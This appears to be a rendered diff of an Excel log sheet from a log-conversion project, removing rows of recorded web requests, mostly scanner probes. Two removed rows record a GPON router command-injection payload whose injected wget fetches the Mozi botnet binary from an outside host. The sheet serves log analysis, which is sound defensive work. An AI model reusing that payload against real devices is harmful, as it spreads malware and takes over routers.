

Before and after one commit to birariro/LogConversionExcel, an Excel workbook: test.xlsx, sheet BlackLogs, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/test.xlsx (sheet BlackLogs)
+++ b/test.xlsx (sheet BlackLogs)
+sheet tab: AttackCount
-row 83: 2021-03-02 14:08:34.502 | 184.105.247.254 | GET / | null
-row 84: 2021-03-02 14:43:50.689 | 14.206.18.218 KR | GET / | null
-row 85: 2021-03-02 14:44:03.565 | 14.206.18.218 KR | GET /asd | null
-row 86: 2021-03-02 14:44:21.573 | 14.206.18.218 KR | GET /sawagger-ui.html | null
-row 87: 2021-03-02 14:50:39.082 | 192.35.168.128 | GET / | null
-row 88: 2021-02-25 00:23:41.380 | 34.78.227.165 | GET / | null
-row 89: 2021-02-25 00:45:09.544 | 10.0.20.244 | GET / | XDEBUG_SESSION_START=phpstorm
-row 90: 2021-02-25 00:45:22.908 | 10.0.20.244 | GET /console/ | null
-row 91: 2021-02-25 00:45:26.216 | 10.0.20.244 | GET /_ignition/execute-solution | null
-row 92: 2021-02-25 00:46:20.021 | 176.113.161.65 | POST /GponForm/diag_Form | images/ | XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=``;wget+http://176.113.161.65:40089/Mozi.m+-O+->/tmp/gpon80
-row 93: 2021-02-25 13:10:09.891 | 10.0.10.206 | GET / | null
-row 94: 2021-02-25 13:25:56.695 | 74.120.14.39 | GET / | null
-row 95: 2021-02-25 13:25:57.071 | 74.120.14.39 | GET / | null
-row 96: 2021-02-25 15:29:55.521 | 0:0:0:0:0:0:0:1 KR | GET /csrf2 | null
-row 97: 2021-02-25 13:10:09.891 | 10.0.10.206 | GET / | null
-row 98: 2021-02-25 13:25:56.695 | 74.120.14.39 | GET / | null
-row 99: 2021-02-25 13:25:57.071 | 74.120.14.39 | GET / | null
-row 100: 2021-02-25 00:23:41.380 | 34.78.227.165 | GET / | null
-row 101: 2021-02-25 00:45:09.544 | 10.0.20.244 | GET / | XDEBUG_SESSION_START=phpstorm
-row 102: 2021-02-25 00:45:22.908 | 10.0.20.244 | GET /console/ | null
-row 103: 2021-02-25 00:45:26.216 | 10.0.20.244 | GET /_ignition/execute-solution | null
-row 104: 2021-02-25 00:46:20.021 | 176.113.161.65 | POST /GponForm/diag_Form | images/ | XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=``;wget+http://176.113.161.65:40089/Mozi.m+-O+->/tmp/gpon80
```
Also changed, not shown: 39 removed rows elsewhere in this sheet, sheet ReadFileList, 10 other files.
